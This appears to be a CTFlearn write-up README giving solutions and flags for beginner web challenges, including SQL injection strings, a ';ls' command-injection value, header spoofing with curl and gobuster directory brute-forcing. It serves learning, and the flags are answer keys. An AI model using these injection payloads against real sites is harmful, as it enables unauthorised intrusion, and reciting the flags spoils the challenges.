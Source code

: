 # POST Pratice

If you go to the site and have it inspected, you will see a username and a password.

Execute `curl -X POST http://165.227.106.113/post.php -d "username=admin&password=71urlkufpsdnlkadsf"` on [Reqbin](https://reqbin.com/curl) to send a request and get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{p0st_d4t4_4ll_d4y}
``
</details>

# Basic Injection

Paste the query in the input : `SELECT * FROM webfour.webfour where name = ' OR '1' = '1'`

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
``
</details>

# Inj3ction Time

Paste the query in the input : `.1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3`

<details>
<summary markdown="span">Answer</summary>

flag :``
abctf{uni0n_1s_4_gr34t_c0mm4nd}
``
</details>

# Don't Bump Your Head(er)

If you go to the site and have it inspected, you will see a User-agent. 

So now just change your user-agent with `Sup3rS3cr3tAg3nt`:

<img src="../files/Network_Conditions.png" alt="User-Agent"/>

<img src="../files/User-Agent.png" alt="User-Agent"/>

Now, you have the referer to `awesomesauce.com`

Execute `curl -v -H 'User-Agent: Sup3rS3cr3tAg3nt' --referer awesomesauce.com http://165.227.106.113/header.php` on [Reqbin](https://reqbin.com/curl) to send a request and get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{did_this_m3ss_with_y0ur_h34d}
``
</details>

# Calculat3 M3

The site gives a calculator that you can click the buttons to input expression, then it will eval the expression and gives a result. The display is set to `readonly`, by removing the attribute we can input whatever we want.

Try to get the contents in directory, set the expression to `;ls`. Submit it to get a list of file names in result, the flag is the one starts with ctf.

<details>
<summary markdown="span">Answer</summary>

flag :``
ctf{watch_0ut_f0r_th3_m0ng00s3}
``
</details>

# My Blog

Go to the site, click on `blog`, inspect the site, check in `Application` into `Local Storage` and you found the flag.

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{n7f_l0c4l_570r463_15n7_53cur3_570r463}
``
</details>

# Gobustme ?

Go to the site, you see a Ghostbuster theme song and lyrics, but *Ghostbuster* is replaced by *Gobuster* and a file txt

The link explains what kind of software it is. So go install :

```sh
sudo apt install gobuster
```

If you want, [DirBuster](https://www.kali.org/tools/dirbuster/) is more beginner friendly because is a GUI while gobuster is a CLI but it is much slower than the othervery.

So now go brut force the website with the file txt : 

```sh
gobuster dir -u https://gobustme.ctflearn.com/ -w /home/guill/common.txt
```

<img src="../files/Gobuster.png" alt="Gobuster"/>

Now, height page of the website is brute force, let's go check in, the `/flag` is a fake, the real is `/hide`.

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{gh0sbu5t3rs_4ever}
``
</details>

# AudioEdit

Too long to write here, check below

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_audioedit.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
ABCTF{m3t4_inj3cti00n}
``
</details>

# Grid It!

Too long to write here, check below

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_gridit.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
ctflearn{obj3ct_inj3ct1on}
``
</details>